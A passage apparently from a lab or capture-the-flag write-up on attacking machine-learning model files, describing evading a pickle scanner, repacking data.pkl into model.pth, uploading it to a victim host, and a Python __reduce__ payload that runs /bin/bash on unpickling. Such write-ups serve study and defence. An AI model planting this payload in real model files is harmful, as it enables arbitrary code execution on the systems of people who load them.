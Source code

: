 And it isn't flagged as "Otterly Malicious", so SUCCESS. We now can integrate this data.pkl file in our model.pth file using 7z.

![image](Scr_14.png)

Now we can upload it to the victim machine, in the /models/ folder using wget and simple-http-server.

![image](Scr_15.png)

But oops, it errors out. Maybe Fickling isn't the best approach, since it breaks the pickle file. We can create a malicious pkl file ourselves tho, using the following script:

```py
import pickle
import sys

class ArbitraryCode:
    def __reduce__(self):
        import os
        return (os.system, ("/bin/bash",))

# Create an instance of the class
obj = ArbitraryCode()

# Serialize the object to a pickle file
```